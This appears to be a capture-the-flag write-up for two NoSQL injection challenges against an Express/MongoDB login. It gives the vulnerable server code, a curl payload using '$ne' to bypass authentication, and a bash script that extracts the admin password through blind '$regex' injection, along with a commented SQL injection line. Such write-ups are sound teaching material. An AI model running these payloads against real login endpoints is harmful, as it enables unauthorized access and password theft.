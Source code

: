 
## No Sequel 

# The challenge:

A lot of people told me about SQL injection. So, i've been thinking: If I use NoSQL, I'm protected against injection, right? RIGHT?

http://54.251.224.195:5000/

```javascript
app.use(bodyParser.json());
app.use(bodyParser.urlencoded({ extended: false }));

app.post('/login', (req, res) => {
  const user = req.body.username;
  const pass = req.body.password;

  if (!user || !pass){
    return res.send("One or more fields were not provided.");
  }
  const query = {
    username: user,
    password: pass
  }

  User.findOne(query, function (err, user) {
    if (!user){
      res.send("Wrong username or password");
      return
    }

    res.send(process.env.FLAG);
  });
});
```

# Writeup

We can see there is no filer it the variables or the query.
So we can inject a NoSQL query:
```bash
curl 'http://54.251.224.195:5000/login' -H 'Content-Type: application/json'   -H 'Referer: http://54.251.224.195:5000/login'   --data '{
    "username": "admin",
    "password": {"$ne": 0}
}'
```

the return : axactf{n05ql_d0e5_n07_m34n_n0_1nj3ct10n}



## No Sequel: Second Impact

# The challenge:

So, ok, maybe my first thought about injection wasn't good: NoSQL doesn't mean that i'm protected. So, this time, i won't make the same error twice. I'll check the password! Note: both No Sequel challenges are using the same DB / data

http://54.251.224.195:5000/

```javascript
app.use(bodyParser.json());
app.use(bodyParser.urlencoded({ extended: false }));
app.post('/hard-login', (req, res) => {
  const pass = req.body.password;

  if (!pass){
    return res.send("You need to provide the password.");
  }
  const query = {
    username: 'admin'
  }

  User.findOne(query, function (err, user) {
    if (!user){
      res.send("Wrong username or password");
      return
    }

    if (user.password === pass) {
      res.send(process.env.HARDFLAG);
    } else {
      res.send("Wrong password");
      return
    }
  });
});
```

# Writeup

We juste need the password of the admin user from the previous challenge.
We 're going to craft the request to find the  password of the admin user character by character. Using the same technique than SQL challenges.
Crafter request:
```bash
curl 'http://54.251.224.195:5000/login' -H 'Content-Type: application/json'   -H 'Referer: http://54.251.224.195:5000/login'   --data '{
    "username": "admin",
    "password": {"$regex": "^a.*"}, "$options": "m"
}'
```

So doing the same script than in SQL challenge:

```bash
#!/bin/bash    
password=""
passwordreel=""
echo $cmd

arrayName=('a' 'b' 'c' 'd' 'e' 'f' 'g' 'h' 'i' 'j' 'k' 'l' 'm' 'n' 'o' 'p' 'q' 'r' 's' 't' 'u' 'v' 'w' 'x' 'y' 'z' 'A' 'B' 'C' 'D' 'E' 'F' 'G' 'H' 'I' 'J' 'K' 'L' 'M' 'N' 'O' 'P' 'Q' 'R' 'S' 'T' 'U' 'V' 'W' 'X' 'Y' 'Z' '0' '1' '2' '3' '4' '5' '6' '7' '8' '9')
while true; do
a=0
for i in "${arrayName[@]}"; do
password="$passwordreel$i"
echo $password
#cmd=$(curl 'http://54.254.115.115:5001/'  -H 'Connection: keep-alive'   -H 'Cache-Control: max-age=0'   -H 'Upgrade-Insecure-Requests: 1'   -H 'Origin: http://54.254.115.115:5001'   -H 'Content-Type: application/x-www-form-urlencoded'   -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36'   -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9'   -H 'Referer: http://54.254.115.115:5001/'   -H 'Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7'   --data 'username=flag1" and password+like+"'"$password"'%fuzh0='   --compressed   --insecure)
cmd=$(curl 'http://54.251.224.195:5000/login' -H 'Content-Type: application/json'   -H 'Referer: http://54.251.224.195:5000/login'   --data '{
    "username": "admin",
    "password": {"$regex": "^'$password'.*"}, "$options": "m"
}')
echo $cmd
if [[ $cmd == *"Wrong"* ]]; then
  a=$a+1;
  
else
  passwordreel=$password
  echo $password
  break
fi
done
echo $password

done

```

We find : m0r3c0mpl1c4t3d57uff
curl 'http://54.251.224.195:5000/hard-login'  --data-raw 'password=m0r3c0mpl1c4t3d57uff' 

and we get : #axactf{th1s_1s_called_bl1nd_5ql_1nj3ct10n}